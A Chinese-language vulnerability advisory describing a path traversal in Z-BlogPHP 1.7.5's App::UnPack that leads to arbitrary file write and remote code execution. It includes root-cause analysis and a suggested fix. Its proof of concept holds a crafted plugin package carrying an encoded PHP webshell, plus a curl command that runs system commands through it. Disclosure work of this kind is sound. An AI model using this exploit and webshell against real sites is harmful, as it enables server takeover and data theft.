


# Z-BlogPHP App::UnPack 路径穿越漏洞

厂商: Z-BlogPHP (https://www.zblogcn.com/)

产品: Z-BlogPHP

版本: 1.7.5 Build 173540

漏洞类型: 路径穿越 → 任意文件写入 → 远程代码执行


作者: lhw422

---

## 漏洞概述

在Z-BlogPHP 1.7.5中发现一处路径穿越漏洞，攻击者可将任意文件写入到插件目录之外，最终导致远程代码执行。

<div align="center"></div>

该漏洞位于 `zb_system/function/lib/app.php` 文件的 `App::UnPack` 函数中。该函数用于解析ZBA（Z-Blog Application）包——一种包含base64编码文件内容的XML文件——并在插件/主题安装时将解码后的文件写入磁盘。

在文件写入逻辑（第769行）中，代码尝试对文件路径进行安全过滤：

```php
$f = str_replace('./', '', pathinfo($f, PATHINFO_DIRNAME)) . '/' . pathinfo($f, PATHINFO_BASENAME);
@file_put_contents($f, $s);
```

`str_replace('./', '', ...)` 过滤器旨在移除目录穿越模式，但无法有效阻止 `../` 序列：

- **单个 `../` 穿越成功**：目录名 `.../plugin/..` 中不包含 `./` 模式，穿越路径被完整保留
- **双重 `../../` 穿越被破坏**：目录名 `.../plugin/../..` 中两个 `..` 交界处正好构成 `./`，导致路径被错误地破坏为 `.../plugin/.../`

<div align="center"></div>

通过构造 `file->path` 为 `../shell.php` 的ZBA文件，攻击者可将PHP webshell写入 `zb_users/shell.php`，而非预期的 `zb_users/plugin/{plugin_id}/` 目录。

---

## 漏洞代码分析

**文件:** `zb_system/function/lib/app.php`，第727-784行（UnPack方法）

**根本原因:** 第769行的路径过滤不充分：

```php
public static function UnPack($s)
{
    global $zbp;
    // ... 解析XML ...

    $type = $xml['type'];       // "plugin" 或 "theme"
    $id = $xml->id;             // 插件ID
    $dir = $zbp->path . 'zb_users/' . $type . '/';

    // 创建插件目录
    if (!file_exists($dir . $id . '/')) {
        @mkdir($dir . $id . '/', 0755, true);
    }

    // 从ZBA包中写入文件
    foreach ($xml->file as $file) {
        $s = base64_decode($file->stream);     // 解码文件内容
        $f = $dir . $file->path;               // 构造目标路径

        // 漏洞点：仅移除"./"，未阻止"../"
        $f = str_replace('./', '', pathinfo($f, PATHINFO_DIRNAME))
           . '/' . pathinfo($f, PATHINFO_BASENAME);

        @file_put_contents($f, $s);            // 写入文件
        @chmod($f, 0755);
    }
}
```

**绕过分析：**

| Payload | 过滤前目录名 | 包含`./`? | 过滤后 | 结果 |
|---------|-------------|-----------|--------|------|
| `../shell.php` | `.../plugin/..` | 否 | `.../plugin/../shell.php` | ✅ 穿越成功 |
| `../../shell.php` | `.../plugin/../..` | 是 | `.../plugin/.../shell.php` | ❌ 路径被破坏 |
| `../../../shell.php` | `.../plugin/../../..` | 是（多处） | `.../plugin/..../shell.php` | ❌ 路径被破坏 |

单个 `../` 路径成功逃逸了 `zb_users/plugin/` 目录，将文件写入 `zb_users/shell.php`。

---

## 漏洞验证（PoC）

### 步骤1：构造恶意ZBA文件

ZBA文件是一个包含base64编码PHP webshell的XML文档，其中嵌入了恶意路径：

```xml
<?xml version="1.0" encoding="utf-8"?>
<app version="php" type="plugin">
  <id>evil_poc</id>
  <name>Evil PoC</name>
  <!-- ... 元数据 ... -->
  <file>
    <path>../shell.php</path>
    <stream>PD9waHAKJGNtZCA9ICRfR0VUWydjbWQnXSA/PyAnJzsKaWYgKCRjbWQpIHsKICAgIGVjaG8gIjxwcmU+IjsKICAgIGVjaG8gc2hlbGxfZXhlYygkY21kKTsKICAgIGVjaG8gIjwvcHJlPiI7Cn0K</stream>
  </file>
</app>
```

### 步骤2：触发App::UnPack

将恶意ZBA内容传递给 `App::UnPack()`。触发方式包括：
- AppCentre插件的ZBA上传接口（`app_upload.php`）
- 直接CLI执行
- 任何将用户数据传递给 `App::UnPack()` 的其他入口点

### 步骤3：验证远程代码执行

访问部署好的webshell：

```
$ curl 'http://127.0.0.1:8080/zb_users/shell.php?cmd=id'
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),...
```

---

## 验证结果

在动态测试环境中（Kali Linux + PHP内置服务器）：

<div align="center"></div>

<div align="center"></div>

已确认可执行任意系统命令。攻击者可以：
- 以Web服务器用户身份执行任意操作系统命令
- 读取敏感配置文件及数据库凭据
- 建立持久化后门
- 横向渗透至内网其他服务

---

## 修复建议

将 `str_replace('./', '')` 过滤器替换为规范的路径校验：

```php
// 修复前（存在漏洞）：
$f = str_replace('./', '', pathinfo($f, PATHINFO_DIRNAME))
   . '/' . pathinfo($f, PATHINFO_BASENAME);

// 修复后（安全）：
$base_dir = realpath($dir . $id);
$target_dir = realpath(pathinfo($f, PATHINFO_DIRNAME));
$target = $target_dir . '/' . pathinfo($f, PATHINFO_BASENAME);
if (strpos($target, realpath($dir)) !== 0) {
    throw new Exception('检测到路径穿越攻击');
}
$f = $target;
```
